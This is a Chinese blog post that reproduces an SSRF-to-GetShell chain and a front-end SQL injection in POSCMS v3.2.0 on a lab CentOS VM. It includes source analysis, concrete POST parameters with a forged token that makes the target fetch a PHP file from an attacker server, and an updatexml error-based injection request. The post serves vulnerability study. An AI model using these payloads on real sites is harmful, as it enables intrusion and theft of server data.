POSCMSv3.2.0漏洞套餐复现
最近比较忙，工作间隙发现虚拟机里存有之前下载的POSCMSv3.2.0，这个CMS系统去年底被爆出漏洞，当时想复现一下却因别的事耽搁了。这次抽空复盘一下，详情见下文。以后有时间了系统地学习一下PHP！^_^！
安装环境
比较好玩的是，该系统的开发者在漏洞曝光后没有第一时间回应，而是重排了版本号（有”掩耳盗铃“之嫌）。。。哈哈，都是题外话。
本次复盘系统部署在CentOS虚拟机中，版本信息如下：
1 | OS: CentOS7 amd64 (IP:10.10.10.129) |
软件版本：2018.11.27 v3.2.0

对应这个版本支持的PHP不得高于7.1，这里只好对系统默认安装版本降级：
1 | yum list installed | grep php |
解压POSCMS-3.2.0.zip到Apache虚拟目录，这里我放在了/var/www/html/POSCMS，软件要求请求URL必须以根目录开始，所以修改了一下/etc/httpd/conf/httpd.conf：

然后配置Mysql，创建数据库、用户、授予权限等等，不再赘述。访问http://10.10.10.129/install.php按步骤进行安装，安装成功后访问主页如下图：
在安装过程中有一次提示“cache目录没有写权限”，原因是POSCMS目录下的所有属主都是root。可以去修改Apache默认授权的用户、组，还是在/etc/httpd/conf/httpd.conf中找到并修改以下段落：

这里我将www目录允许的用户、组直接改成了当前操作用户newman，接着修改POSCMS目录的属主为同一属主：

接着就能正常安装了。有时候位于虚拟机内的CentOS无法访问，那么可以查查以下服务的状态，并清空一下规则。基本上关停以下服务，大概率就能访问了：
1 | ## 清空iptables |
漏洞1——SSRF及GetShell
打开项目源代码，第一个漏洞的出处在\diy\module\member\controllers\Api.php中的down_file()函数，内容如下：
1 | // 文件下载并上传 |
源码分析
这段代码的主要逻辑是根据请求中参数去请求文件内容，并将它保存在特定目录中，最后以json格式返回保存结果。
Part1没什么好说的，只要管理员不修改默认权限，注册个普通用户就有视频、图片的上传功能。Part2中dr_authcode()是一个加解密函数，位于\diy\dayrui\helpers\function_helper.php。其具体实现可以不用关心，毕竟源码已经到手，只要找到密钥，就能随意构造加密结果。

Part3中确定了下载文件的名称，这里我们请求的参数中不包含code参数，使$PATH为空，则它会取问号表达式的后半段SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/'，最后的上传路径如下：/uploadfile/年月/。

Part4中的dr_catcher_data()函数正是SSRF漏洞的来源，其实现位于\diy\dayrui\helpers\function_helper.php。无论代码最后选的是fopen模式还是curl模式，开发人员都没有对可解析的协议做限制，也没有校验请求参数$url的范围。

寻找触发点
直接用VSCode的全局搜索功能，寻找down_file()函数的调用位置：

发现它出现在了一个js文件中，于是构造一个XHR的POST请求到服务端，设置file参数的值使其访问/etc/passwd，得到如下响应：

用浏览器打开“文件存储路径+返回的文件名”：

GetShell
再请求一下/config/system.php，该文件中存储有重要的元数据。

这是因为Part5中的$ext变量虽然为空，但它专门过滤了.php文件，好在利用file://协议的解析特性，可以绕过这一点，比如.php?.或.php#.：

再次用浏览器打开并设置编码格式为UTF-8：

获取到安全密钥后，可以构造特殊payload绕过扩展名检查。这里，总结一下此次GetShell的思路：
- 构造特殊payload使.html文件允许被上传
- 在自己控制的服务器上放置.html文件（里面有恶意代码的php代码）
- 利用SSRF漏洞，使被攻击服务器用http协议访问带外数据（OOB），获取到恶意的.html，形成Getshell
为了绕过扩展名检查，我将加密代码拷贝进另一文件并填入密钥，输入选择1|html,|0，运行得到输出为22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM，并构造POST参数file=http://10.10.10.1/haha.html&url=code=22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM，这里的haha.html里包含了php代码<?php echo phpinfo();?>，最终效果如下：


如果这里复现失败了，那大概是在于两点：一、加密函数有时效性，过时需要重新生成；二、CentOS默认安装的Apache无法解析包含php代码的html文件，需要在/etc/httpd/conf.d/php.conf中添加如下：

漏洞2——前台SQL注射
最后一个SQL注射漏洞，为了找到漏洞出现的位置，我可耻地下载了别人博客里的截图并放大，看到了以下信息：

查看源码（\diy\dayrui\models\Attachment_model.php）可以发现注入点：

该函数的调用点位于（\diy\module\member\controllers\Account.php）：

对应的功能实际是前台用户中心—>基本管理—>附件管理的搜索功能，随便选择某个类别搜索后会看到这条请求：
1 | GET /index.php?s=member&c=account&m=attachment&module=photo&ext= |
向module参数注入Payload果然出现了报错：

但不知道为什么博客里的Payload这里复现失败了，不过已经知道是报错注入，我用了经典的Payload——" or updatexml(1,concat(1,0x7e,user()),1);#拼接入参数中，得到了数据库当前用户：
1 | GET /index.php?s=member&c=account&m=attachment&module=photo%22%20or%20updatexml(1,concat(1,0x7e,user()),1);%23&ext= |

第一次复现php代码漏洞，如有错误或忽略的地方，望各位师傅斧正。以后有时间了好好学一遍php语言，毕竟是世界上最好的语言（手动滑稽）。嗯~~还是先把Java Web搞懂吧！